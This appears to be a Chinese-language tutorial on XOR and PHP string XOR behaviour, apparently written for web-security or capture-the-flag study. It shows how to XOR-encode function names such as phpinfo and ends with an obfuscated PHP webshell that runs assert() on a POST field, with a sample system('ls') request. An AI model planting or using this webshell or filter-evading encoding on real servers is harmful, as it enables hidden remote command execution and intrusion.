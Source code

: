 

# 异或原理：

异或（xor)是一个数学运算符，它应用于逻辑运算，异或的数学符号为“⊕”，计算机符号为“xor”

如果a、b两个值不相同，则异或结果为1。如果a、b两个值相同，异或结果为0。



运算法则：

1. a ⊕ a = 0

2. a ⊕ b = b ⊕ a

3. a ⊕b ⊕ c = a ⊕ (b ⊕ c) = (a ⊕ b) ⊕ c;

4. d = a ⊕ b ⊕ c 可以推出 a = d ⊕ b ⊕ c.

5. a ⊕ b ⊕ a = b.

6.若x是二进制数0101，y是二进制数1011；

则x⊕y=1110



# php异或特性：

https://www.php.net/manual/zh/language.operators.bitwise.php

If both operands for the &, | and ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string. In all other cases, both operands will beconverted to integers and the result will be an integer.

字符串^字符串=字符串

除此之外的情况=整数



## 字符串的异或操作是基于ascii码来进行的，例如：

```php
<?php
//@忽略notice输出
var_dump(@a^"1");//string(1) "P"
echo ord("a");//97
echo "\n";
echo ord("1");//49
echo "\n";
echo chr(97^49);//P
```



## 异或得到自己想要的任何字符：

异或的特性：

a^b=c

c^b=a

所以：如果我们想要得到P字符：

```php
$str=urldecode('%ff');//选定任意一个字符urldecode解码
$P=urlencode(@P^"$str");//让该字符与需要的字符异或，得到异或结果的url编码
echo $P;
```

实列：异或得到phpinfo

```php
$str=urldecode('%ff%ff%ff%ff%ff%ff%ff');
$phpinfo=urlencode(@phpinfo^"$str");
echo $phpinfo;
//解码回phpinfo
echo urldecode('%8F%97%8F%96%91%99%90')^urldecode($str);
echo "\n";
```



# 构造一个webshell

```php
assert($_POST[_]);
//异或得到
(':__>)['^'{,,[[/')(${%A0%A0%A0%A0%A0^%FF%F0%EF%F3%F4}{_});
post:_=system('ls');
```

